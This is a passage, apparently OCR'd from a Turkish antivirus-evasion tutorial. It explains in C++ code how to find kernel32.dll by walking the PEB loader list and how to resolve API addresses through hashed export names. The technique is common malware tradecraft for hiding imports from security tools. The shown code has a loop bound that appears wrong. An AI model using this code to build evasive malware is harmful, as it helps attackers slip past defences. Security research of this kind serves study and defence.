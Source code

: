 1. `PEB` adresi `GS` kaydına göre nispi bir adreste bulunur: `GS:[0x60]`     
2. `PEB` içindeki `LDR`'nin ofseti `0x18`'dir.    
3. `kernel32.dll` taban adresi `0x10`'dadır.    

### pratik örnek

Hadi inceleyelim:        

```cpp
static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
    mdl = (LDR_MODULE*)mdl->e[0].Flink;
    if (mdl->base != nullptr) {
      if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
        break;
      }
    }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;
}
```

Daha sonra `GetProcAddress` ve `GetModuleHandle`'ı bulmak için, [önceki](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html) yazımdaki `getAPIAddr` işlevimi kullandım:    

```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
    (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + 
    img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)(
    (LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)(
    (LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
```